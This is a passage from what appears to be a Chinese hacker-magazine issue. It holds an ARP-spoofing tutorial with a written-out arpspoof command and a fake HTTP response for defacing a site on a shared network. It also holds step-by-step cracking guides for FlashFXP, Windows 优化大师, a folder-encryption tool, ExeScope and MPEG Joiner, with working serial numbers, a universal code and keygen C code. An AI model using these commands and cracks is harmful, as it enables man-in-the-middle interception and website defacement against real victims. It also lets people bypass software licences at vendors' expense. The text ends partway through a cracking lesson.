修改这篇文章挺累的，不过想想一个菜鸟们不熟悉的方法被那么详细地介绍出来，值了！对老鸟来说，这不是什么新技术，不过里面提到的用 Sniffer 来解决 WSE 抓包时数据被覆盖的思路倒是点醒了我。另说一下修改文章累的原因，主要是作者找图和描述都太过“精炼”，可是 X 档案的读者好多时候少一句话他们就会迷糊，还希望以后作者在投稿的时候尽量考虑到这个问题。把你测试的过程，用比较准确又生动的语言描述出来并不是啰嗦，而是细心！

## 揭开黑防网站变成“大力水手”的秘密

职业欠钱


11月的安全界可以说是相当的混乱，很多著名的安全论坛被 DDOS，还有黑客防线首页变成大力水手头像。作者在论坛中追踪此事，发现有人多次篡改页面，并提到工具 arpspoof 以及相关案例。

文中进一步描述了某些网站被黑后的表现：目录、文件、权限等并非全部被破坏，而是通过 WEB 方向看到页面被篡改。作者引出核心原因：利用 TCP/IP 协议中的 ARP 欺骗来实现。

> **小知识3：什么是网关**  
> 在局域网中，多台电脑通常共享网络出口，这个出口就是网关。网关可以是设备接口或路由节点，局域网主机访问外部网络时，数据先到网关，再由网关转发与回传。

了解网关后，作者解释 arpspoof 的原理：其可进行 ARP 欺骗，使网关误将攻击者主机识别为目标主机，从而把数据包转发给攻击者。攻击者再决定是转发、丢弃或修改后转发。

> **小知识1：什么是ARP**  
> ARP 用于在局域网内把 IP 地址解析为 MAC 地址。主机通过 ARP 请求与应答建立 IP-MAC 映射，并将结果缓存以便后续通信。

> **小知识2：什么是ARP欺骗**  
> ARP 通信依赖广播与缓存更新。攻击者可伪造 ARP 应答，把某 IP 错误地绑定到攻击者 MAC，导致受害主机或网关将流量发往错误地址，这就是 ARP 欺骗。

文章指出 TCP/IP 早期对安全考虑不足，ARP 机制天然脆弱。很多机房环境中服务器共处同一交换网络，若缺乏隔离，攻击者可在同网段内通过 ARP 欺骗发起中间人攻击。

作者继续说明：使用此类底层工具常需安装 WinPcap 驱动；驱动安装后可在命令行运行 arpspoof 并查看详细参数说明。

```text
E:\tools\Sniffer\arpspoof-3.1\Release>arpspoof.exe
ARPSpoof Ver 3.1b by CoolDiyer.
Usage:
  ArpSpoof <IP1> <IP2> <PORT> <AdpNum> <Mode> /[r|s] <File>
  ArpSpoof /?

Mode Options:
  0: IP1 --> IP2
  1: IP1 <-> IP2

Examples:
  ArpSpoof 192.168.0.1 192.168.0.8 80 2 1 /r job.txt
```

文末解释参数含义：IP1 和 IP2 是被欺骗的两个 IP，PORT 用于指定要针对的端口（后文续）。

## 黑客研究院

PORT 用于指定对某个端口的数据进行修改或嗅探。AdpNum 是指本机网卡的序号，可以用 `arpspoof -l` 列出来，适合于电脑有多块网卡时选择与目标 IP 在同一个网段的网卡。Mode 可以使用的参数有 0 和 1，0 表示单向欺骗，仅欺骗从 IP1 发往 IP2 的数据，1 表示双向欺骗。`/r` 表示 Replace（修改）数据包并转发，`/s` 则表示仅嗅探不修改。

```text
ArpSpoof 192.168.0.1 192.168.0.8 80 2 1 /r job.txt
```

表示当前使用序号为 2 的网卡，两个 IP 进行双向欺骗，并根据 `job.txt` 里的规则替换从 192.168.0.1 发往 192.168.0.8 的 HTTP 协议数据（80 端口）。我们做一次真实演示：先在目标主机开启 IIS，在网关上访问效果如图1；随后在 CMD 下运行 arpspoof 并生成规则文件 `job.txt`，其内容可用 `type job.txt` 查看（图2）。


程序的主要任务是把前面的 HTTP 返回内容替换为自定义页面文本。注意规则内容写在一行中，可以把显示文字改成任意内容（例如“Hack by ...”），从而在访问时显示被篡改页面。

```text
HTTP/1.1 200 OK\r\nServer: CoolDiyer's Hack IIS\r\nContent-Length: 27\r\nConnection: close\r\nContent-Type: text/html\r\n\r\nHack by Cooldiyer<noframes>
```

废话不多说，接下来让网关访问目标主机时显示被黑页面。需要截获从目标到网关的数据，修改后再转发给网关；因此 IP1 为目标主机（192.168.0.56），IP2 为网关（192.168.0.1）。示例命令：`arpspoof.exe 192.168.0.56 192.168.0.1 80 0 0 /r job.txt`。匹配到规则的数据会被修改，不匹配则直接转发。


是不是很神奇呢？文中继续分析了对站点进行同网段入侵并实施 ARP 欺骗的思路：先解析目标域名 IP，在附近服务器上取得权限后进入同一交换机环境，再利用工具进行 ArpSpoof，使访问者看到黑页而原站未察觉。

随后讨论了防护方式：端口隔离、VLAN 划分、静态 ARP 绑定等。作者强调技术应以研究与防护为目的，不应用于非法用途，并致谢 CoolDiyer。文末说明相关 ArpSpoof 欺骗工具源码及相关驱动程序已收录。


## 注册码无处寻，弦招生——教你破解 FlashFXP


FlashFXP 这个软件想必大家都不会陌生吧？这个软件虽然功能不是很强大，但挺实用。前几天从网上下载了一个，安装后才发现没有注册码。本来想去找一个的，但还是觉得应该锻炼一下自己，看 X 档案这么久了，光看不练可是永远也进步不了的。

首先将系统时间改一下让软件过期，运行后界面如图所示。设过期时“我接受”按钮可用，现在不行了。还是按照惯例的步骤，先用 peid 检查一下，确定该软件是使用 Delphi 编写的，并且没有加壳。可能会有些朋友想到随便输入一组注册码，找出错误提示，然后使用 W32Dasm 载入分析。其实条条大路通罗马，破解的方法也是多种多样的。


运行 Resource Hacker，打开 FlashFXP。在 RCData 中可以找到程序的所有窗体资源，仔细看一下就发现了注册的窗体 TfrmReg。从程序过期的界面，我们就可以锁定目标是“我接受”这个按钮了。但是在代码中找了一会儿什么也没有发现，只找到了“我拒绝”“订购信息”“输入代码”这三个！再认真看看代码，总算发现了问题。代码如下：

如果没有注意，有人会认为直接把 Enabled 的值改为 True 就可以了。但实际上这样是不行的，改过后，“我接受”的按钮还是不可用。就算按钮可以用了，但它的 OnClick 事件执行的是 b4Click，是“我拒绝”的 OnClick 事件。既然我们没有办法让“我接受”按钮可以使用，归于不能就换个目标。把“我接受”按钮设为 b1，过期时其它三个按钮还是可以用的，如果我们把它们的 OnClick 事件改为 b1Click 会怎么样呢？

```text
object b1: TButton
  Left = 346
  Top = 8
  Width = 93
  Height = 25
  Enabled = False
  TabOrder = 0
  TabStop = False
  OnClick = b4Click
end
```

把“我拒绝”按钮的 OnClick 改为 b1Click，运行程序后只要点“我拒绝”就可以使用程序了。这样虽然成功破解了，但还是不完美，程序运行时还会有注册的窗体，每次都要点“我拒绝”按钮。如果你比较懒，连点都不想，我们可以为 TfrmReg 窗体添加事件，如：OnCreate=b1Click，OnShow=b1Click。此时 OnCreate、OnShow，窗体 TfrmReg 已经有相应的事件不能使用；我们就添加个 OnMouseMove=b1Click，这样只要在注册窗体上移动鼠标，窗体就会自动退出了。

细心的朋友应该发现了吧，b1 没有 Caption 属性，而且 Enabled 和 OnClick 也有问题。现在是不是觉得破解其实也挺简单的，只要选对了方向，相信破解的道路也是一片光明的。小菜我初次写文章，如果有什么错误请大家指出。（本文所涉及的软件：FlashFXP、peid、W32Dasm、Resource Hacker，光盘已收录。）

## 菜鸟来为某脱壳优化大师


终于买电脑了，以后可以不用再到网吧里去看网管的脸色来上网了，也不会再有什么不爽的限制了。看着以前杂志上各位大虾们关于给软件脱壳的文章，我也蠢蠢欲动，毅然踏入了脱壳初学者的行列。今天我要脱的是 ASPack 2.12 壳，这个壳对大虾们来说很简单，但是对我们这种初学者还是有点难度的。我们要用到的工具有 OllyDbg、peid_0.94、ImportREC。

我们要脱“衣”的主角是 Windows 优化大师，先使用 peid_0.94 载入 Windows 优化大师，如图1，可以看到程序被加的是 ASPack_2.12 壳。开始脱壳，使用 OllyDbg 载入，来到入口，如图2。用近 call 步入的方法，第二句就是 call，所以我们要 F7 步入，来到了如图3所示的地方。

一路 F8，遇到 RETN 返回，来到图4处，发现程序要跳到 0072900E，一看是个 call，又是近 call 步入的方法。为什么要步入呢？如果你不步入就会直接运行了！（这应该是壳的反调试功能吧，这是我的理解，嘿嘿。）按 F8 到 0072900E 时按 F7 步入。


```asm
00729001 6B            PUSHAD
00729002 E8 33000000   CALL 0072900A
00729007 E9 EBA5D045   JMP 45CF9BF7
0072900C 55            PUSH EBP
0072900D C3            RETN
...
```


```asm
0072900A 5D   POP EBP
0072900B 45   INC EBP
0072900C 55   PUSH EBP
0072900D C3   RETN
```


又来到如图5所示的地方，看到 `0072902F` 的 `JNZ` 跳转，这是关键性的跳转点。作者说明该跳转用于避开调试，并提示可通过单步跟踪观察其跳转路径。

```asm
00729008 EB 04         JMP SHORT 0072900E
0072900A 5D            POP EBP
0072900B 45            INC EBP
0072900C 55            PUSH EBP
0072900D C3            RETN
0072900E E8 01000000   CALL 00729014
```


```asm
00729014 5D            POP EBP
00729015 BB EDFFFFFF   MOV EBX,-13
0072901A 03DD          ADD EBX,EBP
...
0072902F 0F85 65030000 JNZ 0072939A
```


OllyDbg 真为我们着想。看它跳到哪儿？是 `0072939A`。按 `Ctrl+G` 输入地址并运行到该处，再 `F8` 跟进，可到达 `RETN 0C` 附近，即程序 OEP。

```asm
0072939A B8 D4E12200   MOV EAX,22E1D4
0072939F 50            PUSH EAX
007293A0 0385 22040000 ADD EAX,[EBP+422]
...
007293B7 C2 0C00       RETN 0C
```


```asm
0062E1D4 55 DB 55
0062E1D5 8B DB 8B
0062E1D6 EC DB EC
...
```


现在已经把优化大师的“外衣”脱下，接下来进行修复：用 OllyDbg 载入脱壳后的 `win.exe`，再用 ImportREC 重建 IAT 并保存修复文件。


`win_.exe` 是修复后的文件，再用 peid_0.94 查看，程序是使用 Borland Delphi 6.0–7.0 编写。


整个脱壳过程并不容易，手工脱壳很有成就感。文末列出所涉及软件：OllyDbg、peid_0.94、ImportREC、Windows 优化大师等。

## 黑客术语小学堂

### 什么是 COOKIES？

当你登录某些论坛后，过段时间再次访问会发现无需重新登录。原因并非论坛“记住了你”，而是浏览器在本地保存了一个文本信息（Cookies），网站读取该信息后识别你的身份。

## 让加密大师的秘密无处可藏

njt777


高强度文件加密大师是一款非常好用的文件夹加密软件，号称“原创三种独特功能加密方式、无懈可击、专业与易用的结合体、最好的加密软件、国防级的加密强度”！以前我也一直在使用这款加密软件，人一懒就过分依赖软件了，直到有一天我的密码被同学给改了，我实在没办法，只好亲自去研究一下了。我们先从它的工作机理入手对其彻底剖析。

在对 E:\test 本机加密后，其根目录下的 Recycled 文件夹被动了手脚，这也是类似大多数加密软件常用的“伎俩”。首先在“工具→文件夹选项”中去掉“隐藏系统文件”选项和“显示隐藏文件”。进入 CMD，输入 `attrib E:\recycled -r -h -s`，去掉其只读、隐藏和系统属性，可以看到此目录图标由回收站变为普通的文件夹。点击进入后有三个文件，又见到了回收站图标，如图3。

### 一、轻易发掘出程序运行密码

这款软件具有防删除功能，通过设定后非授权用户是无法打开的，如图1。


根据以往的思路，我们是到内存中寻找正确的密码。利用 WinHex 的 RAM 编辑器打开 Svchost 进程的整个内存，选择“搜索——查找文本”，输入我们刚才输入的错误密码。注意这个密码尽量要有特色，确保在内存中容易被搜索，如图2，我使用的密码是 hacker，上方紧挨着它的就是正确密码 89521。

直接点击进入的是正常回收站。回到 CMD 输入 `attrib S-1-5-21-1060284298-811497611-11778920086-500 -r -h -s`，去掉其只读、隐藏和系统属性。这一长串输入确实很烦人，我们可以输入 `attrib s-1` 时按 Tab 键会自动完成输入。然后，我们会看到 INFO2 目录，如图4，进入后会有一个 Dil 目录。


可能会有朋友说不对啊，那不是我设定的密码。是的！不过这个密码的确可以正常登录，我猜测它是根据正确密码按照一定算法计算出来的，此算法又不够合理，使得两个都可以登录。我试了几次，发现这个内存中的密码大多为数字。本人不擅长底层分析，至此打住了。需要注意的是，加密大师运行时系统中可能有两到三个进程，在一个进程中找不到就换另外的试试。

看清楚后面有个空格哦，直接双击会报错，显示为无效目录，如图5。这就是利用了 Windows 的文件命名特性：正常状态下文件名不能含有“\ / : ? < >”等特殊符号，带有这种符号的文件就成了所谓的“顽固文件”，无法删除和重命名。有些病毒也是通过生成这种顽固文件达到常驻硬盘的目的。

### 二、无须任何工具，手工解密

加密大师有三种加密方式：本机加密、移动加密和隐藏加密。经过测试，加密原理相差不大，本文就从本机加密着手，其它的大家可以自行研究。


回到 CMD，文件夹 Di 的短文件名可能就是 Dil~1，其下级还有一个怪异文件目录，同样方法进入就看到我们的加密文件了，如图6，现在可以删除或剪切了。

### 三、小软件大功能，迅速解密

这里介绍两个好用的小软件，也是加密文件的克星。pc.exe 可以对顽固文件/目录改名、删除，只要改为正常名称就可以直接在视窗环境下直接访问。FolderSniffer.exe 可以解密大部分加密文件，速度飞快，这也是因为加密软件密码只是用作访问控制，并未进行算法加密。


本文本着学习的态度对加密大师加密方法进行研究，也希望我们的国产加密软件能够越做越好。

> （文中涉及到的工具 pc.exe 和 FolderSniffer.exe 已收录在光盘中）

## II 从汇编角度分析注册机教程之：行云流水脱 ExeScope 6.5

菜鸟 @H4ck.Cn

好多初学破解的朋友对阅读反汇编代码很头疼，由于没有专业学习过汇编语言的原因，使大部分破解爱好者的技术停滞不前。当经验和技巧积累到一定程度，只有将基础夯实加固，才能使你的破解技术在整体上有所提升。反汇编代码的阅读一直以来都是破解的基础和难点。可以说，如果你能很顺利地读懂注册部分核心代码，任何程序将对你俯首称臣。

下面我们以 ExeScope 6.5 为例向大家讲解。ExeScope 是一款优秀的资源编辑软件，也是 cracker 的必备。本文我们将使用静态反汇编的方法对其注册算法进行分析。

首先，使用 PEiD 查壳。显示程序是由 Delphi 6.0–7.0 编写的，并且没有加壳，如图1。


运行 eXeScope.exe 并随便填写注册信息进行注册，结果出现了注册失败的信息，如图2。我们把这个注册失败的提示信息“Invalid ID or Name”记录下来。

接下来请出破解界的屠龙宝刀 W32Dasm。为什么不使用 OllyICE 呢？因为使用 OllyICE 反汇编程序后并没有查找到注册失败信息。可以说在某种程度上，OllyICE 的静态反汇编功能还是不如 W32Dasm 强大的。打开 W32Dasm.exe 加载 eXeScope.exe，由于程序比较小，很快就加载完毕，如图3。

选择“参考”->“串式数据参考”查看字符串信息，如图4。在这里发现了注册失败信息。我们用鼠标反复双击它，看反汇编代码窗口的地址变化，结果只有一处地址：004C2B5E。有了这个地址你也可以用 OllyICE 动态分析，不过今天我们要学习的是纯粹的静态分析。来到反汇编代码窗口观察代码，如图5。


我们看到注册失败信息，上面辅助信息中显示，注册失败是由 004C2AC6 和 004C2ADA 两处跳转过来的。如果程序顺序运行是先经过 004C2AC6 再经过 004C2ADA 的，那我们就先到 004C2AC6 看看。方法是在地址代码窗口，选择“Goto Location”菜单，在弹出对话框里填写偏移地址点“确定”，如图6。


来到 004C2AC6 处发现一段比较经典的指令段，如图7。先是几个 mov 赋值，再经过一个 call，后面一个判断 test，再根据判断的结果不同进行跳转。一般来说这段代码的作用和意义是：用 mov 指令来取我们填写的注册码，经过关键算法 call 计算注册码，test 判断计算出来的注册码和我们填写的注册码是否一样，不一样就跳到注册失败。

通过分析已经基本了解了注册的基本流程。既然 `call 004CBF7C` 是关键算法 call，这个 call 从 004CBF7C 开始到 004CC01A 结束，那么 004CBF7C 处就应该是计算注册码算法的开始地址了。来到 004CBF7C 处向下阅读代码。具体指令含义请参考相关书籍（推荐《80x86 汇编语言程序设计教程》），这里只对关键代码简要说明，如图8。


图8中三处作用如下：

- 1. 取注册码，判断注册码是否是十位（A 是十六进制数，转换为十进制就是 10）。
- 2. 判断注册码前五位是不是 “A1960”。
- 3. 判断注册码前五位是不是 “A1423”。


- 1. 用 `inc eax`、`cmp eax 0B`、`jne` 构成循环，判断注册码第 2 到第 10 位是不是在 0 到 9 之间（窗口中 30 和 39 是字符 0 和 9 的 ASCII 码）。
- 2. 用 `movzx` 取注册码的第九和第十位，用 `add` 相加（ASCII 码相加），再用 `div` 对 `0A` 取余，判断余数是不是 4。

算法到这里基本结束，我们来总结一下算法吧：注册码为十位，第二位到第十位均为数字，前五位是 A1910 或 A1423，第九位加第十位除 0A 余数是 4，其它各位没有另外要求。

注册码格式可写为 `A1910***(a)(b)` 或 `A1423***(a)(b)`，其中 `(a)+(b)/0A = 4`。由于算法中均为 ASCII 十六进制运算，转换为十进制约为 `(a)+(b)+96/10 = 4`，可整理为 `(a)+(b)=8` 或 `18`。示例：`A19106699`、`A14238844` 注册成功。


希望大家在以后的学习中能注重基础知识的学习，提高静态分析能力和反汇编代码阅读能力。本文目的不只是破解一款软件，更是希望通过分析过程检验自己的汇编功底。

文中提到在某压缩包中提供了算法和一个注册码，并给出如下格式说明：

> Format of key (ID) is `A1910x(D1)(D2)` or `A1423xx(D1)(D2)`  
> Where: `x` = any digit 0-9  
> `D1` = digit  
> `D2` = digit  
> and `(D1 + D2) % 10 = 4`

可以看出该算法说明存在错误，但给出的例子 `A191000680` 与静态分析结果一致。作者强调：不要只复制粘贴注册码，要重视算法分析与基础训练。

## 从零开始学破解之（一）
### ——初识破解

Talent Feng

### 前言

#### 1、破解的由来

讲述普通用户遇到“未注册版本不能使用”“请及时注册”等提示后，因无法获得注册码而产生破解需求；并说明支持正版的重要性，同时指出学习研究场景下对破解技术的兴趣来源。

#### 2、学习破解的要求

对初学者而言，关键是具备基本电脑与上网能力，并对软件破解有兴趣。

#### 3、学习破解的步骤

- （1）学习并记住最基本的汇编指令
- （2）学会查看软件的基本信息
- （3）对软件进行爆破

经过上面四步学习后可具备基本能力。作者建议初学者先掌握入门与基础，再逐步接触脱壳等更难内容。

### 开始学习

#### 第一部分：汇编知识

因为汇编对破解非常重要，所以先介绍一些常见汇编语句；学习破解技术前需先牢记这些语句。

```text
1、赋值语句
mov a,b  // 把 b 的值赋给 a，使 a=b
```

示例说明：若执行前 `a=1, b=2`，执行 `mov a,b` 后，`a=2, b=2`。

```text
2、比较语句
cmp a,b  // 比较 a 与 b（相等、a>b 或 a<b）
```

执行了 `cmp a,b` 后，程序就会把 1 与 2 进行比较。以上两个语句是赋值语句与比较语句中最常用也是最具代表性的。

#### 3、跳转语句

- 1. `je` 或 `jz`（相等则跳）
- 2. `jne` 或 `jnz`（不相等则跳）
- 3. `jmp`（无条件跳）
- 4. `jb`（若小于则跳）
- 5. `ja`（若大于则跳）
- 6. `jg`、`jge`、`jl` 等常见变体

#### 4、调用子程序语句 CALL

`CALL` 的作用是使程序在需要时调用相关的子程序来运行。

#### 5、无作用语句 NOP

当程序遇到 `NOP` 时不做任何事。该指令在破解中应用非常广泛。以上代码是基本汇编语句，后续破解中会大量使用。


#### 第二部分：工具简介

古语有云：“工欲善其事，必先利其器”。在破解过程中，工具非常重要，合适的工具可以让破解事半功倍。

#### 1、探测工具

探测工具可帮助获取程序基本信息，如是否加壳、使用何种语言编写等。常用探测工具是 PEiD。

#### 2、脱壳工具

若程序被加壳，通常需先脱壳再分析。文中介绍了 Quick Unpack 等工具。

#### 3、反汇编工具

静态反汇编工具有 W32DASM、C32Asm；动态反汇编工具有 OllyDbg、SOFTICE、TRW2000 等。

#### 4、资源编辑工具

包括 UltraEdit、WinHex、eXeScope 等，可用于修改文字、菜单等资源。

#### 第三部分：动手实践

本部分强调通过实践理解前文知识，以“8186 名片王”为例进行破解演示。

#### 1、探测信息

先打开 PEiD，将 `pCard.exe` 拖入进行探测。随后运行软件出现注册提示框，说明是未注册版本，需要进一步处理。

限制的话，就要捧起《黑客 X 档案》学习破解技术了！


#### 2、破解

将 `OllyDBG.rar` 解压后运行 `OllyDBG.exe`，把目标程序拖入 OD。按 `CTRL+G`，输入地址 `004C605B` 并跳转。


```text
004C605B  .  0F85 44010000  jnz
```


004C61A5 —— 跳转。

看到了吗？JNZ 跳转，赶紧回忆一下前面说到的知识：JNZ 跳转的意思是“不相等就跳”。还记得与 JNZ 跳转指令相反的是什么吗？没错，JZ 或者 JE！好了，现在在这一行指令上双击鼠标左键，在弹出的对话框中将 `jnz 004C61A5` 改成 `jz 004C61A5`（也可以改为 `je 004C61A5`），如图6。

改写完成后点击“汇编（Assemble）”按钮。然后在该行代码上单击鼠标右键，选择“复制到可执行文件”，选择“所有修改”，如图7。


现在运行修改后的程序看看，要求我们注册的窗口不见了！再看看软件运行的界面与修改前的相比有什么差别呢？如图9。哈哈，现在我们已经是注册用户了，使用起来没有任何功能限制！而我们并没有去联系软件作者购买注册码，很轻松地解决了问题。

第一次的破解过程就轻轻松松地结束了，但是为什么要在那个位置修改、为什么要那样修改，大家是不是充满了疑惑呢？别着急，这些问题我会在下次给大家一一作答。在下一节课开始之前，希望广大对破解感兴趣的读者把今天讲到的知识反复温习几遍，因为它对下节课的理解是至关重要的。

注意这时 OD 的界面会发生变化，被修改过的代码会以不同的颜色高亮显示。在变化后的代码上单击鼠标右键，选择“保存文件”，如图8。在弹出的保存文件对话框中给修改后的程序起一个名字（例如 pCard2.exe），单击“确定”就可以保存下来了。

> ### 关键词解释
>
> 壳：顾名思义，壳是一种包在外面的东西。加壳就是把一个程序的代码进行封装与保护，使其在运行前经过脱壳或还原步骤，达到防止被轻易分析与修改的目的。掌握汇编和相关调试知识后，才有可能对这类程序进行深入处理。本文就是一个典型的例子。

## 黑客术语小补习：什么是 SHELL？CMDSHELL 和 WebShell 又是什么？

SHELL 的含义是“壳”，在计算机术语里可理解为人与计算机交互的中间层。它负责把人输入的命令翻译成计算机可执行的操作，再把结果反馈给人可理解的信息。

举例来说，在本地运行 CMD 并输入命令（如 `net user`），系统执行后会把结果显示在 CMD 中，这就是一种 CMDSHELL 交互方式。在远程渗透中，也可能通过某种通道获得对方主机的命令执行能力，再把输出回传到本地查看。

同样地，如果攻击者通过漏洞上传了可执行脚本（如 ASP/PHP/JSP/CGI 等）到目标网站，并可借此查看、编辑、删除文件，这类脚本通常被称为 WebShell。WebShell 往往只是入口，攻击者常会进一步尝试提权并扩大控制范围。

## TIT 破解器——算法完美破解版初级篇

rickey@TIT


我们这次破解的目标程序是 MPEG Joiner，这是一款很容易操作的 MPEG 影片合并工具。要用到的破解工具则是 OllyDbg、PEiD。首先，让我们来回顾一下破解的基本步骤。

- 1. 准备工作——查壳脱壳，记录注册失败信息；
- 2. 正式破解——初步结合反汇编程序，查找关键跳转和算法代码段；
- 3. 算法提取——阅读算法代码段，总结归纳注册算法；
- 4. 归纳逆算法——通过注册算法逆推破解算法，完成注册机的编写；
- 5. 总结——对每一次破解都要做详细的技术总结，以促进学习。


### 一、成功永远属于有准备的人

首先来完成漫漫破解长路的准备工作。用 PEiD 0.94 加载 MpegJoiner.exe 后发现程序是由 Microsoft Visual C++ 7.0 编写的，没有任何壳。这就大大降低了破解的难度。我们运行 MpegJoiner.exe 会弹出对话框要求我们注册。如果不注册只能试用 30 天，并且只能合并不多于 3 个的文件。随便填写注册信息进行注册，结果当然注册失败了，不过也正好得到了我们想要的注册失败信息，把它记录下来，如图1。


### 二、动静结合深入剖析

使用 OllyICE 加载 MpegJoiner.exe 进行反汇编分析。使用 Find UNICODE 功能查找注册失败信息 “registration failed!”。双击后跳到 00403FD2（如图2）。如果 OllyICE 没有找到 Find UNICODE 命令，可在右键“查找”中选择“所有参考文本字符串”，进入新界面后再右键选择“查找文本”（取消“区分大小写”后查找）。

双击注册失败信息来到 00403FD2 处，向上阅读反汇编代码，在 00403F7C 处发现注册成功字样 “registration has succeeded!”，继续向上看，可见跳转指令 `jnz short 00403FCE`（图3），这是跳向注册失败的路径。

上面还有 00403F3C 处的 `je short 00403F78` 跳向成功。一直到 00403D32 处发现要求输入注册名（图4）。两个 `mov` 传送后是一个 `cmp` 比较，再加一个跳转，可看出是典型的对输入信息长度进行判断的指令段，可能是对用户名或注册码长度的判断。我们在这里下断点，然后 F9 运行程序，随便填写注册信息并尝试注册。这时程序会停在 00403D23（图4），可看到刚输入的注册名信息。接下来继续动态跟踪，注意堆栈和寄存器数据变化。下面是对主要代码的简要说明，如图5。


```asm
00403D28  mov  eax,[esi+70]
00403D2E  mov  ebp,[eax-C]
00403D29  cmp  ebp,2
00403D2C  jge  short 00403D43
...
00403D32  push 0042AEFC    ; "please input correct user name!"
00403D43  mov  ecx,[esi+74]
```

```asm
00403D46  cmp  dword ptr [ecx-C], 8
00403D4A  jge  short 00403D61
00403D50  push 0042AED4
; "为了8时提示 please input correct registration code"
```

同样道理，00403D61 到 00403DB4 都是一些判断我们输入的注册名和注册码是否存在的代码段。一直阅读到 00403DB9 才找到该软件注册算法代码段，大家要仔细阅读以下部分，如图6。

```asm
00403DB9  0FB6C2        movzx eax, dl
00403DBC  83C8 44       or    eax, 44
00403DBF  99            cdq
00403DC0  BF0A000000    mov   edi, 0A
00403DC5  F7FF          idiv  edi
00403DC7  0FB64424 12   movzx eax, byte ptr [esp+12]
00403DCC  83C8 43       or    eax, 43
00403DCF  895424 16     mov   [esp+16], dl
...
```

上面所存储的四个数据就是后面所要用到的注册码。继续向下阅读，如图7。不难看出，从 00403E00 到 00403E1D 这个循环的目的是将注册名 ASCII 码逐位累加后存入 EAX 中。继续分析下面几段代码，下面几处主要是取注册码的操作。

```asm
00403E33  8A11         mov  dl, [ecx]
00403E35  8B4E 74      mov  ecx, [esi+74]
00403E38  8379 FC 01   cmp  dword ptr [ecx-C], 1
00403E3C  8B6424 19    mov  [esp+19], dl
```

这段代码的意思是取注册码第一位存入 [esp+19]。紧接着的代码意思如下：注册码第二位存入 [ESP+13]，注册码第三位存入 [ESP+14]，注册码第四位存入 [ESP+15]，注册码第五位存入 cl，注册码第六位存入 [ESP+1A]，注册码第七位存入 [ESP+1B]。现在注册码已经有了，接下来就是比较判断注册码真假了，看如下代码。

```asm
00403EE4  8A5E 06        mov   bl, [esi+76]
00403EE7  0FB67C24 16    movzx edi, byte ptr [esp+16]
00403EEC  0FB6D2         movzx edx, dl
00403EEF  83EA 30        sub   edx, 30
00403EF2  3BFA           cmp   edi, edx
00403EF4  75 48          jnz   short 00403F3E
```

00403EF6 到 00403F27 的作用依次是：比较第二位注册名运算后结果和第二位注册码，比较第三位注册名运算后结果和第三位注册码，比较第四位注册名运算后结果和第四位注册码。前四位比较完毕后，该第五位了，注意第五位注册码的算法与前面四位不同，不一样哦，如图8。

```asm
00403F2A    BF 0A000000    mov edi,0A
00403F2F    F7FF           idiv edi
00403F31    0FB6C2         movzx eax,dl
00403F34    0FB6D1         movzx edx,cl
00403F37    83EA 30        sub edx,30
00403F3A    3BC2           cmp eax,edx
00403F3C    74 3A          je short 00403F78
```

因此 00403F3C 为关键跳转，也就是爆破点了。通过改逆可以实现爆破。

### 三、算法提取与归纳

- 通过上面分析可以基本总结出注册算法如下：
- 注册名必须大于等于 2 位
- 注册码必须大于等于 8 位
- 注册码第 1 位 = （用户名第 1 位 ASCII 码 or 44）mod 0A
- 注册码第 2 位 = （用户名第 2 位 ASCII 码 or 43）mod 0A
- 注册码第 3 位 = （用户名第 1 位 ASCII 码 or 43）mod 0A
- 注册码第 4 位 = （用户名第 2 位 ASCII 码 or 44）mod 0A
- 注册码第 5 位 = （用户名各位 ASCII 码的累加）mod 0A
- 注册码第 6 位以后可以随便填写，但注册码必须大于等于 8 位

因此我们输入注册名 rickey，通过上面总结的算法计算出的注册码就应该是：87597***，* 代表任意字符。填写注册测试一下，注册成功，说明我们归纳的算法正确无误，如图9。

图9

### 四、万能注册码归纳

算法总结到这里基本已经结束了，但是在 00403EF4 处有一个可疑的跳转指令 `jnz short 00403F3E`。我们来看看究竟吧。当我们填写的注册码第一位不正确时，程序并不是跳到注册失败而是先到这里，如图10。

```asm
00403F3E    807C24 19 39   cmp byte ptr [esp+19],39
00403F43    0F85 85000000  jnz 00403FCE
```

如果上述判断结果为否则跳到 00403FCE 注册失败；如果上述判断结果为真，则继续向下运行，来到如下处我们不难总结出一组万能注册码。

```asm
00403F7C    68 B8AE4200    push 0042AEB8   ; registration has succeeded!
```

注册名必须大于等于 2 位，可以是任意字符，只要注册码前八位为 93013147 即可注册成功！

### 五、关于注册机

下面简单说说注册机的编写吧。我习惯用 C 语言来做算法编程，因为 C 的运算功能比较全面。先定义注册名字符串为 `name`，定义注册码字符串为 `code`。注册码的前四位算法可以归纳为：

```c
code[0]=(name[0]|0x44)%0xA;
code[1]=(name[1]|0x43)%0xA;
code[2]=(name[0]|0x43)%0xA;
code[3]=(name[1]|0x44)%0xA;
```

第五位就得用个循环了，因为要逐位累加注册名嘛。

```c
int len,i,eax;
len=strlen(name);
for(i=0;i<len;i++){
    eax+=name[i];
}
code[4]=eax%0xA;
```

图10

好了，到此，整个破解过程及算法我们就已经全部明了了。（文中涉及到的工具 MPEG Joiner、PEiD 0.94、OllyICE 已经收录于光盘中）

### 案说感评

由于该软件没有加壳保护，因此观察程序要简单很多；但它做了异常行为判断，稍不注意也可能还原。破解过程也较流畅，并没有太大难点。可以看出 **Ickey** 同学对脚本反汇编作业有一定功力。应注意的地方是该软件的注册码验证算法，当第一位注册码比较失败后，程序会跳入可能导致无法继续运行的死循环代码块里。修改 `00403FF4: 00403F05`、`00403F16: 00403F02`、`00403F25: 00403F55` 后程序会继续执行。最终该软件的注册流程与某些国外软件非常类似，并可通过“万能注册码”思路完成注册。该文对代码编写与验证过程引用了网上开源算法模块，这对降低编写难度和提高破解效率都有帮助。

## 从零开始学破解之（三）

Talent Feng

### 前言

在上一期文章中我们对软件破解的基础知识作了一个简单的介绍，并暴力破解了一个软件。但是在文章的最后我们留下了两个疑问：

- 要修改什么地方的代码？怎么找到那个地方？
- 确定了修改的位置要怎样去修改？

这是困扰初学者最大的两个问题，因为软件一旦经过调试器的编译就会产生成千上万行的汇编代码，要在这些代码海洋里确定“要修改的位置”就好比大海里捞针。所以就必须有一定的方法去找到这枚“针”。如果我们经过千辛万苦找到了要进行修改的位置，又会遇到另一个问题：如何去修改呢？如何修改才能达到效果呢？这样修改合适吗？就让我们带着这些问题来继续第二堂课的学习吧！

图1

### 准备知识

简单的汇编命令：JZ/JE 相等则跳转，JNE/JNZ 不相等则跳转，JMP 无条件跳转。

### 第一部分：怎样确定修改的位置

